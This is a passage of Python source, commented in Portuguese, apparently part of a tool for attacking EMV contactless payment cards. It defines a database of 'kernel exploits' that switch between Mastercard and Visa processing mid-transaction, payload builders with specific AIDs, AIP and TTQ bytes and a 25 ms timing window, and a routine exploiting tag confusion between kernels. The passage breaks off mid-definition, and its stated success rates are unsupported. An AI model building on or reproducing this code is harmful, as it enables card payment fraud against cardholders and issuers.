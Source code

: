 ```python
        self.exploit_database = self.load_kernel_exploits()
        
    def load_kernel_exploits(self):
        """
        Database de exploits específicos por kernel
        """
        return {
            'mc_to_visa_switch': {
                'description': 'Switch from MC CDA to Visa DDA mid-transaction',
                'timing': 'During GPO response',
                'payload': self.build_mc_visa_payload,
                'success_rate': 0.75
            },
            'visa_to_mc_switch': {
                'description': 'Switch from Visa EMV mode to MC offline',
                'timing': 'During READ RECORD',
                'payload': self.build_visa_mc_payload,
                'success_rate': 0.68
            },
            'dual_kernel_response': {
                'description': 'Send responses for both kernels simultaneously',
                'timing': 'Parallel to legitimate response',
                'payload': self.build_dual_kernel_payload,
                'success_rate': 0.82
            }
        }
    
    def build_mc_visa_payload(self, transaction_context):
        """
        Constrói payload para switch Mastercard → Visa
        """
        # Start with Mastercard SELECT
        mc_select = {
            'aid': 'A0000000041010',
            'label': 'MASTERCARD',
            'priority': 0x01
        }
        
        # Switch to Visa processing during GPO
        visa_gpo = {
            'aip': b'\x20\x00',  # Visa DDA format
            'processing_mode': 'visa_contactless',
            'ttq': b'\x80\x00\x00\x00'  # Visa TTQ format
        }
        
        return {
            'select_phase': mc_select,
            'gpo_phase': visa_gpo,
            'exploit_timing': 0.025  # 25ms window
        }
    
    def exploit_data_element_confusion(self, kernel_mix):
        """
        Explora confusão em elementos de dados entre kernels
        """
        # Mastercard uses Tag 9F6E for Enhanced Contactless Reader Capabilities
        # Visa uses Tag 9F7A for different purpose
        
        confusion_tags = {
            '9F6E': {
                'mastercard': 'Enhanced Contactless Reader Capabilities',
                'visa': 'Undefined/Proprietary',
                'exploit': 'Send MC interpretation to Visa processor'
```